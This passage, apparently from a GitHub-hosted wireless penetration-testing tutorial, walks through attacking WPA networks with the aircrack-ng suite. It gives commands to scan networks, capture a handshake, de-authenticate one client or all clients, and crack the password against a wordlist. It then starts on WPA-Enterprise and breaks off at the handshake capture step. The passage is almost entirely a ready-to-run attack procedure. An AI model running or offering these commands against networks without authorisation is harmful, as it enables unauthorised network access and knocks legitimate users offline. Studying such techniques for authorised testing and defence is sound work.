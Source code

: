 ```sh
sudo airodump-ng --band abg <interface_in_mointor_mode>
```

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/c71aad24-31da-40ad-a8a7-e50e0403ee54)


> The above network type is WPA1 as there is no version appered

2.  Capture Handshake

```sh
sudo airodump-ng <interface_in_monitor_mode> --bssid <BSSID> -c <channel> -w <pcap_file_name>
```

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/dcdf06a5-69f8-4431-b004-3c4d5b2071a0)


3.  Perform De-authentication attack (kick a spasific client from the network to get the handshake)

```sh
sudo aireplay-ng -0 5 -c <client-mac> -a <BSSID>  <interface_in_mointor_mode>
```

> Note: Delete `-c` option if you want to do it in broadcast (Kick all clients)

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/da52dea5-5c98-4697-afbb-ab6360367652)


4.  Wait till get the handshake

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/331c6a18-6d06-4760-9b9c-f83bcb4ecbf3)


5.  After getting `EAPOL` ( Handshake), We will crack the password using aircrack-ng

```sh
sudo aircrack-ng -w <wordlist> capfile.cap
```

> Connect to the network using connecting to networks section

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/e4a8a697-8c0a-4609-aca3-3b5ecf538203)


## Attacking WPA-Enterprise

1.  First, We gather information about the network like `BSSID` , `channel` to filter the networks using:

```sh
sudo airodump-ng --band abg <interface_in_mointor_mode>
```

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/44b7b04c-31c2-4e6b-ba69-265572e45f22)


2.  Then we gather handshake for the enterprise network

```sh
sudo airodump-ng --band abg -c x --bssid <BSSID> -w <pcap_file_name> <interface_in_mointor_mode>
```
